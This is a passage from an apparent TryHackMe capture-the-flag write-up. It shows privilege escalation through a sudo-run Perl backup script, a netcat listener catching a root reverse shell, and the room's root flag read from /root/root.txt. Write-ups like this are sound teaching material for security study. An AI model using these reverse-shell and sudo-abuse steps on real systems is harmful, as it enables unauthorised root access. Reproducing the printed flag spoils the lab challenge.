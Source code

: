 ```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

```bash
➜  TryHackMe nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.9.2.228] from (UNKNOWN) [10.10.92.243] 56684
/bin/sh: 0: cant access tty; job control turned off
$ cd /root/
$ ls
root.txt
$ cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>

